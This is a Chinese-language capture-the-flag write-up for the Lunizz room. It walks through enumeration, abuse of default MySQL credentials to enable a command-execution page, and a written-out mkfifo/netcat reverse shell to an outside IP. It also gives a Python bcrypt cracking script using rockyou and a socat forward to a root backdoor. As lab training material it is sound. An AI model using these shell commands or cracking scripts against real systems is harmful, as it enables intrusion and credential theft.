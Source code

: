 # Lunizz CTF

---

## 端口扫描

循例nmap

![在这里插入图片描述](https://img-blog.csdnimg.cn/004b70c7ef224adab1aa1776900466df.png)

## Web枚举

进80，apache默认页面

![在这里插入图片描述](https://img-blog.csdnimg.cn/c095f048eff84ca3baabfcb2a354630d.png)

gobuster扫一下目录

![在这里插入图片描述](https://img-blog.csdnimg.cn/e664b053cc77493d82468606f75fa4a1.png)

/hidden一个文件上传点, 图片上传后无权访问/hidden/uploads/

![在这里插入图片描述](https://img-blog.csdnimg.cn/c85ff7d957554b088244e043efcf574c.png)

/whatever一个假的命令执行点

![在这里插入图片描述](https://img-blog.csdnimg.cn/bb953fdb2460423b9aa87f3c38a9eb12.png)

/instructions.txt

	由 CTF_SCRIPTS_CAVE 制作（不是真实的）
	
	感谢您安装我们的 ctf 脚本
	
	＃脚步
	- 创建一个 mysql 用户 (runcheck:CTF_*****************me)
	- 更改 config.php 文件的必要行
	
	完成后就可以开始使用 ctf 脚本了
	
	＃笔记
	请不要使用默认凭据（这很危险）<<<<<<<<<------------------------ 阅读此行 请

得到了一组mysql默认凭据，我相信他会使用默认凭据的，尝试登录mysql

![在这里插入图片描述](https://img-blog.csdnimg.cn/96f202707fd045b68925abeac0586821.png)

里面有个runornot的库

![在这里插入图片描述](https://img-blog.csdnimg.cn/19e4b8b2ab864acdb2ab5ec93be90655.png)

除了这些，已经没有其他东西了，也无法读写文件

我注意到房间提起刚刚的假命令执行点，

从runcheck表当中的run字段，根据多年的编程经验，它可能就是一个开关，用于激活命令执行点

	update runcheck set run=1;

![在这里插入图片描述](https://img-blog.csdnimg.cn/03983dac807b4a5d91b6f2ccc6fc5f6d.png)

成功执行命令，猜测没错

![在这里插入图片描述](https://img-blog.csdnimg.cn/c496637e99f44bed8a3474b744fa4e1a.png)

直接reverse shell payload

```bash
mkfifo /tmp/f1;nc 10.14.39.48 8888 < /tmp/f1 | /bin/bash > /tmp/f1
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/7ba1ac8c4f75482b948cb7400901cc62.png)

## 横向移动 - 1

在根目录发现了adam用户的文件夹proct，里面有个python文件

![在这里插入图片描述](https://img-blog.csdnimg.cn/8ec27e43440f417cafb7d680b65f32ec.png)

查看该文件

![在这里插入图片描述](https://img-blog.csdnimg.cn/ef47b349f9564ff5aa67c02f3870c8ba.png)

我尝试着爆破，但没成功，发现它加了随机的salt，而下面给出了整个hash，并且包含了那个salt，即前22位，我们可以用rockyou加salt来爆破出明文密码

值得注意的是我们还需要进行base64 encode

```python
import bcrypt
import base64


salt = b'$2b$12$LJ3m4rzPGmuN1U/h0IO55.'
hashs = b'$2b$12$LJ3m4rzPGmuN1U/h0IO55.3h9WhI/A0Rcbchmvk10KWRMWe4me81e'

with open('/usr/share/wordlists/rockyou.txt', 'r') as f:
    passwd_list = f.readlines()

for pwd in passwd_list:
    passwd = pwd.strip()
    b64_pwd = base64.b64encode(passwd.encode('ascii'))
    generated_hash = bcrypt.hashpw(b64_pwd, salt)
    print(f'Cracking...: {passwd}', end='\r')

    if generated_hash == hashs:
        print(f'\n{passwd}')
        break
```

爆出来

![在这里插入图片描述](https://img-blog.csdnimg.cn/3bcbc2c5d5804533abc7088c85a96886.png)

直接su过去

![在这里插入图片描述](https://img-blog.csdnimg.cn/a023f38ebe2e4444a143aba637408903.png)

## 横向移动 - 2

在adam家目录下的Dekstop里面有个txt

![在这里插入图片描述](https://img-blog.csdnimg.cn/65fb9c8891434c028a4559064db6c4eb.png)

打开它，地图所在的位置名字，尝试一番后，将其小写并且去掉空格就是mason的密码

![在这里插入图片描述](https://img-blog.csdnimg.cn/87618867e98a47938fbc73c44692a0cd.png)

user flag

![在这里插入图片描述](https://img-blog.csdnimg.cn/062af0eb24e44b6f9a0059c363576a7a.png)

## 权限提升

通过ss -tlnp发现内网开了个8080，使用ps查看进程是php并且是root

![在这里插入图片描述](https://img-blog.csdnimg.cn/249083f559444e2298ae06b8154bd19f.png)

直接传个socat过去把它转出来

![在这里插入图片描述](https://img-blog.csdnimg.cn/59ae61da4ab447c5b990cb698e804a2a.png)

访问8888端口, 一个backdoor

![在这里插入图片描述](https://img-blog.csdnimg.cn/4d3f2202656c49b1a4eb3ede168eb05d.png)

使用mason的密码，并且使用passwd的cmdtype进行post请求，发现它似乎直接更改了root的密码为mason的密码

![在这里插入图片描述](https://img-blog.csdnimg.cn/79f1e709f2dc455a93069f9b191f346f.png)

直接su到root，同时拿到root flag

![在这里插入图片描述](https://img-blog.csdnimg.cn/9da07e6525094de38d96208aea7c7ba9.png)
